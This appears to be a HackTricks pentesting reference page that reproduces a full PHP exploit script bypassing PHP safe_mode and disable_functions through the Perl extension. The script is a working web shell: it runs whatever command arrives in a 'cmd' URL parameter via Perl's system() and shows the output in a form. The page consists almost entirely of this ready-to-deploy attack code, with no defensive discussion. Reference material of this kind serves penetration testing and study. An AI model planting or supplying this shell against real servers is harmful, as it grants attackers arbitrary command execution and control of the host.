 {{#include ../../../../banners/hacktricks-training.md}}

# PHP Perl Extension Safe_mode Bypass Exploit

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

```php
<?php

#########################################################
##----------------------------------------------------###
##----PHP Perl Extension Safe_mode Bypass Exploit-----###
##----------------------------------------------------###
##-Author:--NetJackal---------------------------------###
##-Email:---nima_501[at]yahoo[dot]com-----------------###
##-Website:-http://netjackal.by.ru--------------------###
##----------------------------------------------------###
#########################################################

if(!extension_loaded('perl'))die('perl extension is not loaded');
if(!isset($_GET))$_GET=&$HTTP_GET_VARS;
if(empty($_GET['cmd']))$_GET['cmd']=(strtoupper(substr(PHP_OS,0,3))=='WIN')?'dir':'ls';
$perl=new perl();
echo "<textarea rows='25' cols='75'>";
$perl->eval("system('".$_GET['cmd']."')");
echo "&lt;/textarea&gt;";
$_GET['cmd']=htmlspecialchars($_GET['cmd']);
echo "<br><form>CMD: <input type=text name=cmd value='".$_GET['cmd']."' size=25></form>"

?>
```

{{#include ../../../../banners/hacktricks-training.md}}


